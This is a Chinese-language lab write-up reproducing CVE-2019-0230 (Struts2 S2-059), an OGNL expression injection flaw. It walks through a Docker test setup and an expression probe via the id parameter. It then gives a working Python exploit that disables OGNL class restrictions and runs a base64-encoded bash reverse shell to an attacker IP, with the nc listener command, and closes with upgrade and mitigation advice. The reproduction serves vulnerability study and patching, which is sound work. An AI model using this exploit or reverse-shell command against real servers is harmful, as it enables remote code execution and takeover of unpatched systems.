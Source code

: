 # CVE-2019-0230：Struts2 S2-059 远程代码执行复现



## 0x01 简介





Struts2是一个基于MVC设计模式的Web应用框架，它本质上相当于一个servlet，在MVC设计模式中，Struts2作为控制器(Controller)来建立模型与视图的数据交互。



## 0x02 漏洞概述

 **漏洞编号CVE-2019-0230**

Apache Struts框架, 会对某些特定的标签的属性值，比如id属性进行二次解析，所以攻击者可以传递将在呈现标签属性时再次解析的OGNL表达式，造成OGNL表达式注入。从而可能造成远程执行代码。

### 0x03 影响版本



Struts 2.0.0 – Struts 2.5.20

**0x04 环境搭建**



攻击机：linux:192.168.20.128

靶机：Ubuntu:192.168.20.129



1、启动 Struts 2.5.16环境:



```
docker-compose up -d
```



![img](resource/%EF%BC%88CVE-2019-0230%EF%BC%89S2-059/media/640-20201027224353796.png)



 2、启动环境之后访问http://your-ip:8080/?id=1 就可以看到测试界面



![img](resource/%EF%BC%88CVE-2019-0230%EF%BC%89S2-059/media/640-20201027224353373.png)



## 0x05 漏洞复现



1、访问

```
http://your-ip:8080/?id=%25%7B233*233%7D
```



可以发现233*233的结果被解析到了id属性中可以看到通过构造恶意的OGNL表达式，并将其设置到可被外部输入进行修改，且会执行OGNL表达式的Struts2标签的属性值，引发OGNL表达式解析。



![img](resource/%EF%BC%88CVE-2019-0230%EF%BC%89S2-059/media/640-20201027224354099.png)



2、对poc进行了修改，反弹shell

```
import requests
url = "http://127.0.0.1:8080"
data1 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
}
data2 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwLjEyOC82NjY2IDA+JjE=}|{base64,-d}|{bash,-i}'))}"
}
res1 = requests.post(url, data=data1)
# print(res1.text)
res2 = requests.post(url, data=data2)
# print(res2.text)
```



这里exec()函数里是我们要执行的命令，我们进行linux反弹shell命令



```
bash -i >& /dev/tcp/192.168.20.128/6666 0>&1
```



（PS：这里经过水木逸轩大佬指点了解到反弹shell涉及到管道符问题于是要将命令进行base64编码）

base64在线编码：

https://ares-x.com/tools/runtime-exec/

3、在攻击机监听本地端口：nc -lvvp 6666 运行脚本成功反弹回shell





![img](resource/%EF%BC%88CVE-2019-0230%EF%BC%89S2-059/media/640-20201027224353601.png)



**0x06 修复建议**



1.Struts官方已经发布了新版本修复了上述漏洞，请受影响的用户尽快升级进行防护。



2.若不方便升级的用户，可以参考Struts官方提供的缓解措施：

将输入参数的值重新分配给某些Struts的标签属性时，请始终对其进行验证。

 考虑激活Proactive OGNL Expression Injection Protection。



参考链接：http://blog.nsfocus.net/struts-s2-0813/

